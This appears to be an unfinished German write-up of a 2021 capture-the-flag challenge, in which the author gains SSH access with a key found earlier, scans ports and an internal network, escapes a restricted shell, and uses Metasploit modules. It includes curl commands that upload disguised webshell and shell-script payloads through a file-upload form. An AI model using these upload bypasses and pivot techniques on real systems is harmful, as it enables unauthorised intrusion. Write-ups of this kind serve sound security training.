

# Bayerns Bester Hacker 2021 / Challenge 3


## Briefing

Du hast es geschafft! Hier ist Aufgabe 3 von Bayerns Bester Hacker.

Das Netzwerk der RAe Schmitt wurde nach dem Ransomware-Vorfall komplett neu aufgesetzt.
Der Administrator Aurelius Müller hat jedoch weiterhin Schwachstellen im neuen Netzwerk.
Finde die Schwachstellen und beweise die Ausnutzung der Schwachstellen, indem du dein Vorgehen erläuterst, ein Passwort des Administrators A. Müller und den ältesten Fall der Kanzlei angibst.
Zusätzlich gibt es noch eine Flag, die du finden und abgeben kannst.

Im Zuge der vorherigen Aufgaben hast du Hinweise gefunden, die dir kombiniert für Aufgabe 3 eine Start-Hilfe geben.
Bitte beachte, dass du auf den Systemen nicht immer alleine sein wirst.
Für Fragen und Probleme zur Aufgabe stehen wir gerne bereit.

Happy Hacking!
Dein Challenge-Team von Bayerns Bester Hacker!


## Lösung

### Vorbereitung

Das Briefing deutet auf Hinweise aus den ersten zwei Challenges hin:
* [Challenge 1](../Challenge1) lässt als Artifakt den [SSH-Key](../Challenge1/ssh.key) über
* [Challenge 2](../Challenge2) hat gleich drei Hosts zur Auswahl:
  * ```DESKTOP-BÜRO1.rae-schmitt.de``` den Desktop-PC des Users l.maier
  * ```win-horcue9m4ld.rae-schmitt.de``` den Domain-Controller des internen Netzwerks
  * ```93.90.206.205``` den Backup-Host aus der sichergestellten Datei [backup.sh](../Challenge2/277aef46-3504-4afa-ae6c-6d1c013589bc/backup.sh)


### Analyse

Zuerst werden die beiden internen Systeme auf ihre Verfügbarkeit überprüft und beide lösen sich als Webserver unter ```h02.wlh.io``` auf. Damit fallen sie vorerst aus der näheren Betrachtung.
```
$ ping DESKTOP-BÜRO1.rae-schmitt.de
PING xn--desktop-bro1-llb.rae-schmitt.de (213.190.30.57): 56 data bytes
$ ping win-horcue9m4ld.rae-schmitt.de
PING win-horcue9m4ld.rae-schmitt.de (213.190.30.57): 56 data bytes
```

Das Backup-Script nutzt einen User ```kayilvggxt``` und Host ```93.90.206.205```. Ein Ping zur Kontaktaufnahme wird blockiert, daher wurde der offene SSH-Port mit [nmap](https://nmap.org/) überprüft und sichergestellt. Ein Login mit dem [SSH-Key](../Challenge1/ssh.key) aus [Challenge 1](../Challenge1) funktioniert und gibt folgende Meldung aus:

```
$ ssh -i ../Challenge1/ssh.key kayilvggxt@93.90.206.205
Mitteilung:
Hallo Mitarbeiter und Mitarbeiterinnen,

wir haben unseren Server umgezogen.
Dieser ist unter http://fileshare.rae-schmitt.ddnss.de/ zu erreichen.
Die Nutzung ist wie gewohnt möglich.

Mit freundlichen Grüßen
A. MüllerConnection to 93.90.206.205 closed.
```

Das Webinterface begrüßt uns mit einer Datei-Upload Maske, die nach einem ersten Test immer fehl schlägt. Zusätzlich ist der Webserver interessant, da vielleicht weitere Services darauf laufen. Ein weiterer Scan mit nmap bestätigt dies:
```
sudo nmap -P0 -sV -p1-65535 -O fileshare.rae-schmitt.ddnss.de
[sudo] password for pw:
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-22 07:45 UTC
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 6.58% done; ETC: 07:49 (0:03:19 remaining)
Nmap scan report for fileshare.rae-schmitt.ddnss.de (46.251.251.66)
Host is up (0.015s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx
443/tcp  open  ssl/http nginx
4444/tcp open  ssl/http Apache httpd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:4.0 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3.10
Aggressive OS guesses: Linux 4.0 (92%), Linux 2.6.32 (92%), Linux 2.6.32 or 3.10 (92%), Linux 4.4 (92%), Linux 2.6.32 - 2.6.35 (88%), Linux 2.6.32 - 2.6.39 (87%), Linux 2.6.32 - 3.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


#### File Share





https://github.com/mayth/go-simple-upload-server
curl -Ffile=@shell.php.pdf https://fileshare.rae-schmitt.ddnss.de/upload

curl -F "file=@payload.sh.pdf" -F "to=" -F "id=fmgmt@tutanota.com" https://fileshare.rae-schmitt.ddnss.de/upload
  Your files have been uploaded successfully. <br />
  It's been saved as: <code>oktzuobbpk.zip</code><br />
  The Password is: <code>YtnTHeJdirEdHn</code> <br /><br />
  Pleas send the Password to <code></code> via a secure
curl -v -X POST -F "email=fmgmt@tutanota.com" -F "password=pmbBEeHpdCEUbr" http://192.168.2.137:8080/files/auswdtpxyp.zip


#### SSH-Host

Der obige Scan legt einen SSH-Zugang offen, den ich wieder mit dem SSH-Key und User aus den vorherigen Challenges teste. Der Hinweis im vorherigen Login-Banner, dass alles ist wie vorher, bestätigt die Annahme:

```
$ ssh -i ../Challenge1/ssh.key kayilvggxt@fileshare.rae-schmitt.ddnss.de
The authenticity of host 'fileshare.rae-schmitt.ddnss.de (46.251.251.66)' can't be established.
ECDSA key fingerprint is SHA256:xjcKp7/CsiKn/Cb6Y8b0FEdcVjqUS8mFHpzg3+ZND6w.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'fileshare.rae-schmitt.ddnss.de,46.251.251.66' (ECDSA) to the list of known hosts.
kayilvggxt@ubuntu_srv:~$
```

**Hinweis:** Die bisher eingeloggten User und zufälligen Usernames (Backup: [/etc/passwd](fileshare.rae-schmitt.ddnss.de/passwd) deuten auf weitere Teilnehmer der Challenge hin und werden mit den Hosts nicht in Betracht gezogen.


Die Standard-Login limitiert die Arbeitsumgebung in der Bash-Shell. Ein zweiter Start ```bash``` ermöglicht das *Ausbrechen* aus der Einschränkung vorerst:

```
kayilvggxt@ubuntu_srv:~$ cd 
bash: cd: restricted
```

##### Netzwerk-Konfiguration

Mit ```ifconfig -a``` kann die aktuelle Netzwerk-Konfiguration angezeigt werden.
```
br-a03359a2d54e: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:a7ff:fea2:d725  prefixlen 64  scopeid 0x20<link>
        ether 02:42:a7:a2:d7:25  txqueuelen 0  (Ethernet)
        RX packets 2797823  bytes 1292708646 (1.2 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2776376  bytes 1437636691 (1.4 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:95ff:fea1:ad1  prefixlen 64  scopeid 0x20<link>
        ether 02:42:95:a1:0a:d1  txqueuelen 0  (Ethernet)
        RX packets 2393  bytes 176176 (176.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4020  bytes 32880985 (32.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens18: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.2.136  netmask 255.255.255.0  broadcast 192.168.2.255
        inet6 fe80::2088:5fff:fef2:770  prefixlen 64  scopeid 0x20<link>
        ether 22:88:5f:f2:07:70  txqueuelen 1000  (Ethernet)
        RX packets 38946116  bytes 16937099402 (16.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 45877498  bytes 15968547045 (15.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```


##### Prozesse

Die laufenden System-Prozesse werden ueber Docker-Container ausgefuehrt, was einen direkten Dateizugriff nicht ermoeglicht.
```
root      6986  0.0  0.0 112556   248 ?        Sl   Aug16   0:10 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 72dd70590fbb27209aab1047b6641fe361f56de79ef15ea3ae95346b10f5fe8e -address /run/containerd/containerd.sock
root      6998  0.0  0.4 776692  8608 ?        Ssl  Aug16   5:39 /usr/bin/containerd
root      7017  0.0  0.0   2316   836 ?        Ss   Aug16   0:00 /bin/bash /app/start.sh
root      7258  0.0  0.1   3412  2860 ?        S    Aug16   0:03 /bin/bash /app/letsencrypt_service
root      7259  0.0  0.2 711712  5284 ?        Sl   Aug16   6:50 docker-gen -watch -notify /app/signal_le_service -wait 5s:20s /app/letsencrypt_service_data.tmpl /app/letsencrypt_service_data
root      7505  0.0  1.0 875708 22028 ?        Ssl  Aug16   4:05 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/contain
erd.sock
root     12968  0.0  0.0 478588  1232 ?        Sl   Aug16   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 443 -container-ip 172.18.0.3 -container-port 443
root     12975  0.0  0.0 478588   856 ?        Sl   Aug16   0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 443 -container-ip 172.18.0.3 -container-port 443
root     12989  0.0  0.0 478588  1208 ?        Sl   Aug16   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.18.0.3 -container-port 80
root     12994  0.0  0.0 478588   808 ?        Sl   Aug16   0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 80 -container-ip 172.18.0.3 -container-port 80
root     13008  0.0  0.0 113964   244 ?        Sl   Aug16   1:28 /usr/bin/containerd-shim-runc-v2 -namespace moby -id db6bc25482458a7f0179f6d1ced08ee0758f3b58f3b307867026c19975838a2d -address /run/containerd/containerd.sock
root     13039  0.0  0.2 706556  4260 ?        Ssl  Aug16   0:51 forego start -r
root     13112  0.0  0.1 711712  3704 ?        Ssl  Aug16   6:38 docker-gen -watch -notify nginx -s reload /app/nginx.tmpl /etc/nginx/conf.d/default.conf
root     13113  0.0  0.0  62992  2016 ?        Ss   Aug16   0:00 nginx: master process nginx
root     13564  0.0  0.0 112556   304 ?        Sl   Aug16   0:12 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 8ade13213858a9614ac64d0434301699b940dcfce4218c7d2f68d3e0131d0fd8 -address /run/containerd/containerd.sock
root     13585  0.0  0.7 844680 15032 ?        Ssl  Aug16   4:01 ./go-simple-upload-server ./files
```


##### Pivot

Schnelle Pr&uuml;fung des lokalen Netzwerks mit [linpeas.sh](https://linpeas.sh/): ```sh l.sh -a -d 192.168.2.1/24```
```
[+] Netmask /24 detected, starting...
64 bytes from 192.168.2.2: icmp_seq=1 ttl=128 time=0.431 ms
64 bytes from 192.168.2.1: icmp_seq=1 ttl=64 time=0.274 ms
64 bytes from 192.168.2.136: icmp_seq=1 ttl=64 time=0.037 ms
64 bytes from 192.168.2.134: icmp_seq=1 ttl=128 time=0.396 ms
64 bytes from 192.168.2.137: icmp_seq=1 ttl=64 time=0.263 ms

[+] Netmask /24 detected, starting...
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.038 ms
Port 443:        Open

[+] Netmask /24 detected, starting...
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.032 ms
// keine offenen Ports

64 bytes from 172.18.0.3: icmp_seq=1 ttl=64 time=0.031 ms
('Please wait, scanning remote host', '172.18.0.3')
------------------------------------------------------------
Port 80:         Open
Port 443:        Open

64 bytes from 172.18.0.4: icmp_seq=1 ttl=64 time=0.038 ms
('Please wait, scanning remote host', '172.18.0.4')
------------------------------------------------------------
Port 8080:       Open
```

Das durchschleusen der Anfragen und ein Upgrade der Session in Metasploit gestaltet sich schwierig:


BBH2021C3_sqlmap
BBH2021C3_sqlmap-success

##### Passwoerter

https://crackstation.net/ss
BBH2021C3_Passwoerter-cracked


# Fazit


# Parkplatz

tcpdump
cftp3
fakeroot-tcp

Webshell:
https://www.whitewinterwolf.com/posts/2017/12/02/wwwolfs-php-webshell-users-guide/


msf6 post(linux/gather/enum_network) > exploit
[+] Info:
[+]     Ubuntu 18.04.5 LTS
[+]     Linux ubuntu_srv 4.15.0-153-generic #160-Ubuntu SMP Thu Jul 29 06:54:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
[+] DNS config stored in /home/pw/.msf4/loot/20210822133453_default_46.251.251.66_linux.enum.netwo_584029.txt
[+] SSHD config stored in /home/pw/.msf4/loot/20210822133453_default_46.251.251.66_linux.enum.netwo_581855.txt
[+] Host file stored in /home/pw/.msf4/loot/20210822133453_default_46.251.251.66_linux.enum.netwo_977897.txt
[+] If-Up/If-Down stored in /home/pw/.msf4/loot/20210822133453_default_46.251.251.66_linux.enum.netwo_077262.txt

post(multi/gather/gpg_creds)
